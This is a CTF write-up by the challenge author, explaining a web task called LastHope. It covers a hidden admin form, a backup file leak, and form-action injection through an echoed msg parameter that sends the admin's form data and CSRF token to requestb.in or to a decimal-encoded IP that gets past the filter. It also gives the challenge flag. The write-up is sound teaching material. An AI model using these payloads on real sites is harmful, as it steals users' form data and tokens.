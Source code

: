 Hello ALL , its me TnMch , it was really amazing event when i was helping geek guys to make this ctf cool and enjoy hacking :D

So , when i was building some task , I get the idea of this LastHope task that need a lot of skills 

So the task was first sign in/out page where you can create you account and login to the home page 


![image](https://user-images.githubusercontent.com/7364615/28757581-5ce51b22-7586-11e7-95b1-ba17d50a7e95.png)


Then when you login there is home and contact page with some fun picture :D

![image](https://user-images.githubusercontent.com/7364615/28757606-db10c26c-7586-11e7-9ee7-b5876fac757b.png)

![image](https://user-images.githubusercontent.com/7364615/28757620-1090f538-7587-11e7-8166-677c1262095c.png)



I puted this picture to give the player the chance to look more and dont focus only in this page 

So if you look in source code of home page you will see hidden form :p


![image](https://user-images.githubusercontent.com/7364615/28757628-40839124-7587-11e7-8679-90aa94441854.png)


so here where we start look deeper :p

its msg parameter which will echo anything in the home page 

![image](https://user-images.githubusercontent.com/7364615/28757646-9cb669ee-7587-11e7-8b3c-efdfb70fbffb.png)

but wait :D there is something i just added in header for smart guys :D 

![image](https://user-images.githubusercontent.com/7364615/28757649-c9fd1a38-7587-11e7-8849-494c308dee44.png)


CSP default-src 'self' so no chance to load any script into the home page ! :D did that means no chance for XSS!!

no wait lets check more always something is missing there 

using some cool staff we can get backup file /index.php.old


![image](https://user-images.githubusercontent.com/7364615/28757673-74b5655c-7588-11e7-87a9-fc52b1b54083.png)

So here we can understand that there is hidden form for admin only 

There is csrf token also , so first csp and then csrf LOOL , maybe many player will said so what we can do here its all over

 <input type="hidden" name="csrf_token" value="{$csrf_token}" />
 
 
 But there is always hope for you guys as the picture said :D
 
 our msg payload is just printed after the form balise :D so what we can do!!
 
 Did you know guys we can do alot of staff here :p
 
 Redirect submit form to our url and steal form data will not be something good :p 
 
 so if we send this url to admin :
 
 ```
 http://34.253.165.46/LocalHope/home.php?msg=</form><form method="GET" action="https://requestb.in/xxxxxx">
 ```
 
 The form will be changed to the new action , and here we can control over the form and get the data to our link 
 
 But as i am so bad :D i add some filtre here and i block any second url send with the link so no one can get data there XD
 
 But smart guys and good player will not stop here and can do more 
 
 Changing our ip url to decimal can do the job for us and bypass the filtre 
 
 exp :  34.253.165.46 will be  587048238
 
 So our link can be 
 ```
  http://34.253.165.46/LocalHope/home.php?msg=</form><form method="GET" action="http://587048238:8080">
```
And all filtre bypassed :D 

YUP , just we get the flag

![image](https://user-images.githubusercontent.com/7364615/28757773-6c1176dc-758a-11e7-91d7-aa17fdc5a8db.png)


FLAG : Bugs_Bunny{Oh_You_FFirst_Find_Me_And_Bypass_My_CSP_:((!!}


HOPE YOU GUYS ENJOYED MY WEB TASK :D 
see you next year

